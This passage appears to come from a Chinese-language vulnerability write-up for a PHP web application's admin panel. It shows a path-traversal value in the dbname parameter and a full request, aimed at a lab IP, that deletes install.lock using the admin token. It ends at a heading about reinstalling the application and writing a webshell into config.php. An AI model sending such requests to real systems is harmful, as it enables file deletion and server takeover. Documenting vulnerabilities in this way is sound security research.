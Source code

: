 修改dbname参数

```
dbname=../../install/install.lock
```

```http
http://192.168.0.102/admin/webadmin.php?mod=db&act=del&dbname=../../install/install.lock&token=317b32ffc49ce760f944230161e31540
```

<img src=".\图片\Snipaste_2023-05-20_19-01-54.png" alt="Snipaste_2023-05-20_19-01-54" style="zoom:67%;" />

另外，pe_token 的值在右键源码里也能找到

<img src=".\图片\Snipaste_2023-05-20_19-01-15.png" alt="Snipaste_2023-05-20_19-01-15" style="zoom:80%;" />

2、重装配合修改 config.php 写入shell
